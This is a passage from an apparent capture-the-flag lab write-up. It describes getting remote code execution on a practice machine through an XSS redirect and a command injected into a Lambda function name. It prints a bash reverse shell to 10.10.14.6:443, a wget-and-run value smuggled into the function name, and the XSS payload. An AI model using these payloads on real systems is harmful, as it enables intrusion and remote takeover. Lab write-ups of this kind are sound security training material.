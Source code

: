         "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }
    

After a minute or so, there’s a request at the webserver:

    
    
    10.10.11.112 - - [25/Aug/2021 15:06:11] "GET /xss-6.js HTTP/1.1" 200 -
    

Four seconds later ICMP arrives:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:06:15.548696 IP 10.10.11.112 > 10.10.14.6: ICMP echo request, id 604, seq 1, length 64
    15:06:15.548734 IP 10.10.14.6 > 10.10.11.112: ICMP echo reply, id 604, seq 1, length 64
    

That’s remote RCE!

#### Alternative to IFrame

When talking to IppSec about how I solved this, he pointed out that my
original XSS payload would have actually made this much easier. Instead of
loading remote script, I can send:

    
    
    <script>document.location="http://127.0.0.1:8080"</script>
    

This will redirect the entire browser session over to the dashboard, and, as
long as the automation is done with a full emulated browser (which it is), it
will load the page and the JavaScript, loading the full application.

#### Shell

I’ll create a simple reverse shell script, `shell.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

I’ll submit a lambda again, this time with the name:

    
    
    --function-name 'ex; wget 10.10.14.6/shell.sh -O /tmp/.0xdf.sh; bash /tmp/.0xdf.sh'
    

This payload will request `shell.sh` from my server and store it in
`/tmp/.0xdf.sh`, and then run it with Bash.

After a couple minutes it requests the XSS payload, and then four seconds
later the shell:

    